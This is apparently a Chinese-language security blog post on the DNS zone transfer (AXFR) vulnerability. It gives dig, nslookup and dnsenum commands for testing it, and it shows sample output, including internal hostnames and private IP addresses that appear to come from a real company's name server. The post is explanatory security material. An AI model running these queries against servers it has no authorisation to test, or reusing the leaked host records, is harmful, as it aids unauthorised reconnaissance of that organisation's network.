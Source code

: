 ```yaml
---
layout: post
title: "DNS域传送漏洞"
description: ""
category: 技术研究
tags: [dns,域传送]
---
```

{% include JB/setup %}

## 相关资料 ##

http://drops.wooyun.org/papers/64

## 检测方式 ##

dig命令

	dig @194.143.123.123 gov.com axfr
	dig @dnsserver-ip domain-name axfr

输出样例:

	# dig @1.1.1.1 wooyun.org axfr  #就可以看到返回结果类似如下：  
	; <<>> DiG 9.7.3 <<>> @1.1.1.1 wooyun.org axfr

	; (1 server found)  
	;; global options: +cmd  
	wooyun.org. 86400 IN SOA wooyun.org. rname.invalid. 0 86400 3600 604800 10800  
	wooyun.org. 86400 IN NS wooyun.org.  
	wooyun.org. 86400 IN A 127.0.0.1  
	wooyun.org. 86400 IN AAAA ::1  
	test.wooyun.org. 86400 IN A 1.1.1.1  
	xxx.wooyun.org. 86400 IN A 2.2.2.2  
	wooyun.org. 86400 IN SOA wooyun.org. rname.invalid. 0 86400 3600 604800 10800


nslookup命令

遇到一个问题就是linux下的nslookup,用ls的时候说没有实现这个命令.....

	C:\Users\litsand>nslookup
	默认服务器:  google-public-dns-a.google.com
	Address:  8.8.8.8

	> set type=NS
	> wahaha.com.cn
	服务器:  google-public-dns-a.google.com
	Address:  8.8.8.8

	非权威应答:
	wahaha.com.cn   nameserver = sanweb.wahaha.com.cn
	wahaha.com.cn   nameserver = ns.wahaha.com.cn
	> server ns.wahaha.com.cn
	默认服务器:  ns.wahaha.com.cn
	Address:  60.12.5.28

	> ls wahaha.com.cn
	[ns.wahaha.com.cn]
	wahaha.com.cn.                 NS     server = ns.wahaha.com.cn
	wahaha.com.cn.                 NS     server = sanweb.wahaha.com.cn
	2013oa                         A      192.200.8.86
	aerla                          A      192.200.1.41
	audit                          A      192.200.8.220
	clothing                       A      202.107.206.214
	clothingtest                   A      192.200.1.113
	dns.itcitc.wahaha.com.cn       A      192.200.10.8
	cproject                       A      192.200.1.178
	cus                            A      192.200.4.21

http://www.wooyun.org/bugs/wooyun-2010-025344
dnsenum 工具

	dnsenum domain.com

